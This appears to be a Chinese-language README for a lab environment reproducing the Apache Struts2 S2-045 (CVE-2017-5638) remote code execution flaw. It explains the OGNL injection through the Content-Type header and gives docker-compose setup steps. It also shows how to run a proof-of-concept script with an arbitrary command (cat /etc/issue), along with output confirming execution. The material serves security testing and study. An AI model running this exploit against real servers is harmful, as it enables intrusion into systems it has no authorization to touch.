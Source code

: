 ##  S2-045（CVE-2017-5638）
https://cwiki.apache.org/confluence/display/WW/Security+Bulletins
受影响：Struts 2.3.5 - Struts 2.3.31, Struts 2.5 - Struts 2.5.10

RCE远程代码执行漏洞，基于Jakarta Multipart解析器进行文件上传时，利用漏洞可进行远程代码执行。

由于当content-type中出现”multipart/form_data”时，会被认为有文件上传，从而调用struts2默认的上传文件组件Jakarta，通过组件漏洞载入OGNL代码并执行，从而达到远程调用的目的。
## 测试环境搭建
```
docker-compose build
docker-compose up -d
```


## POC
s2-045-poc.py 中修改cmd值，执行任意命令
(#cmd='echo struts2-045;cat /etc/issue')

```
 python s2-045-poc.py http://10.160.11.191:8080/
[vulnerability exist] http://10.160.11.191:8080/
struts2-045
Debian GNU/Linux 9 \n \l

<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.0 Transitional//EN">
<html>
<head>
    <META HTTP-EQUIV="Refresh" CONTENT="0;URL=example/HelloWorld.action">
</head>

<body>
<p>Loading ...</p>
</body>
</html>
```

## 参考：
*Apache Struts是美国阿帕奇（Apache）软件基金会负责维护的一个开源项目，是一套用于创建企业级Java Web应用的开源MVC框架。

*https://struts.apache.org/docs/security-bulletins.html

*http://www.freebuf.com/vuls/128668.html


